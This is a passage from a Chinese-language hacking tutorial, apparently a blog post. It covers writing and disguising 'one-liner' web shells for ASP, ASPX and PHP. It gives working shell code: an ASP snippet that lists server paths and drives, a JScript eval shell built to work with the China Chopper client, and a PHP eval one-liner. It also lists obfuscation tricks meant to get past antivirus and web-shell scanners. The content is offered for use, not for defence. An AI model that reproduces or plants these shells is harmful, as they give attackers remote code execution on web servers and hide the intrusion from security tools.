 当然不仅限于显示网站路径，任意代码哦！试试：

```
try{var S="->|"+Server.Mappath("/")+"\t";var oFso = Server.CreateObject("Scripting.FileSystemObject");var oDrivers = oFso.Drives;for(var x=new Enumerator(oDrivers);!x.atEnd();x.moveNext()) {var oDriver = x.item();S+=oDriver.Path;}S+="|<-";Response.write(S);}catch(e){}

```

![2013122818165995078.jpg](http://drops.javaweb.org/uploads/images/23f3f74ed1f950ef37f765f855669623032cbd16.jpg)

这个一句话已经满足我们的所有要求了，但是你会说它依然不完美，因为它不支持Chopper！好吧，那就再费心改造一下吧…… 经过改造后的Shell代码如下：

```
<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>
    var Sp = Request.form('z');
    var Fla = {'E' : eval};
    var St=""
    var A="XX代码";
    var B="XX代码";
    var C="XXXXXX"; ……
    switch(Sp) { case "A": St=A; break; case "B": St=B; break; case "C": St=C; break; case "D": St=D; case "E": St=E; break; …… default:} Fla.E(St+'');
</SCRIPT> 

```

这样就可以使用“菜刀”连接了(我省略了代码，精简了重点部分上面只是个示例。)

好吧，ASP一句话到这已经玩的很开心了，那接下来说下ASPX、PHP吧，是这样的，我不懂.net编程，也不懂PHP编程。自己顶多也就算是个无证&业余程序猿，所以从这往下所述的您能看就看，不能看就使劲吐槽！！！！！

总的来说上面的ASPX一句话已经够玩了，但是如果您是个追求完美的人，您可以将您的代码编译入Dll，然后放入bin目录(lake2 N年前不就这么做了吗：WebAdmin 2.Y详见：[http://blog.csdn.net/lake2/article/details/575602](http://blog.csdn.net/lake2/article/details/575602)),dll中的代码用记事本能看吗！更别提杀了……

最后来说一下PHP吧，变形方法和ASP、ASPX的没什么两样。您可以将代码写入<script language=php>标签内以增大迷惑性，但这一招和ASP的vbscript一样对于安全类软件早已经失效，没说它们视如所以呢，看实际情况和使用的地方了，自己选择。

通过简单的变量传递便可以实现免杀(php语法真的好灵活，能免的连个毛都不剩下)……  
我使用如下代码作为一句话：

```
<?php
$x=$_POST['z'];
@eval("\$safedg = $x;");  
?>

```

当然您不满意的话可以继续搞，连eval都给拆了！使用preg_replace、array_map或是从REQUEST的变量中取得eval、assert……，实没D盾都会有不同等级的报告(提示可疑但不认识，毕竟这些不常用函数都挺有风险……)，我是挺懒，不想搞了……  
看效果：

![2013122818201195763.jpg](http://drops.javaweb.org/uploads/images/d19c0ee225ceca254827ce80ef55cc118fc34bb0.jpg)

关于如何玩转一句话已经写的差不多了(本人水平问题ASPX、PHP未能写的更详细！以后补充……)。如果将来一句话因为关键字被杀实再玩不鸟了(可能性不太大)，那就转业自写Customize脚本吧，至少文件读写，数据库连接这些功能是不会被杀的。

参考：

[http://qqhack8.blog.163.com/blog/static/114147985201211292209893/](http://qqhack8.blog.163.com/blog/static/114147985201211292209893/)

[http://hi.baidu.com/monyer/item/a218dbadf2afc7a828ce9d63](http://hi.baidu.com/monyer/item/a218dbadf2afc7a828ce9d63)